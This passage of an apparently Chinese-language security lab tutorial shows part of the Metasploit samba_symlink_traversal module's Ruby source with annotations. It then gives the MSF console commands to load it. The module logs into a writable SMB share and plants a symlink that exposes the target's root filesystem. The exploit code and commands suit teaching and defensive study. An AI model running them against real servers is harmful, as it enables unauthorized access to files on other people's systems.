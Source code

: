```
      OptString.new('SMBTARGET', [true, 'The name of the directory that should point to the root filesystem', 'rootfs'])
    ], self.class)

  end
  
  
  # 程序主要的运行函数
  def run
  
    # 程序连接服务器函数
    print_status("Connecting to the server...")
    connect()
    smb_login()

    
    # 连接目标主机    
    print_status("Trying to mount writeable share '#{datastore['SMBSHARE']}'...")
    self.simple.connect("\\\\#{rhost}\\#{datastore['SMBSHARE']}")

    # 尝试进入 root filesystem 文件系统
    print_status("Trying to link '#{datastore['SMBTARGET']}' to the root filesystem...")
    self.simple.client.symlink(datastore['SMBTARGET'], "../" * 10)

    # 进入成功后，在屏幕上输入成功标志
    print_status("Now access the following share to browse the root filesystem:")
    print_status("\t\\\\#{rhost}\\#{datastore['SMBSHARE']}\\#{datastore['SMBTARGET']}\\")
    print_line("")
  end

end 
  

```

代码关键模块讲解结束后，我们在 MSF 终端中，进行实战，输入如下命令：

```
search samba
```

![此处输入图片的描述](https://doc.shiyanlou.com/document-uid212008labid2296timestamp1480572764316.png/wm)


注意：这一步在实验楼中使用 `search samba` 会花较长的时间，同学们可以直接看老师搜索出来的结果，跳过这一步不会影响实验，造成缓慢的主要原因是因为没有进行缓存。解决的办法是使用缓存命令 `db_rebuild_cache` 进行缓存，提高索引速度：


```
# 使用 samba_symlink_traversal 模块

use auxiliary/admin/smb/samba_symlink_traversal 

# 查看参数

show options
         
```
